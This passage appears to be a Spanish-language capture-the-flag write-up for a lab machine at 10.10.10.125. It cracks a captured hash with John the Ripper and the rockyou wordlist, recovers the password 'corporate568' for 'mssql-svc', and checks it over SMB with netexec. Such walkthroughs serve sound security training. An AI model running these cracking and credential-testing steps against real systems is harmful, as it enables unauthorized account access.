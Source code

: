 Nos guardaremos el hash obtenido en el archivo "hash.txt".

```bash
catnp hash.txt
```

<figure><img src="../../../.gitbook/assets/994_vmware_qFRz52o3gd.png" alt=""><figcaption></figcaption></figure>

## Cracking hashes with JohnTheRipper

Procederemos a crackear el hash con la herramienta de **john** para así lograr saber qué contraseña pertenece a ese hash. Comprobamos que el hash ha sido crackeado y la contraseña correspondiente es: _corporate568_

```bash
john  hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/995_vmware_mtpXBxRhad.png" alt=""><figcaption></figcaption></figure>

### Checking new credentials found with Netexec

Validaremos con **netexec** de que las credenciales encontradas son válidas para el usuario. Comprobamos que como usuario de dominio no nos indica que tenemos autenticación, pero indicándole que es un WORKGROUP si.

```bash
netexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568'

netexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

<figure><img src="../../../.gitbook/assets/996_vmware_gptkF3Kyix.png" alt=""><figcaption></figcaption></figure>
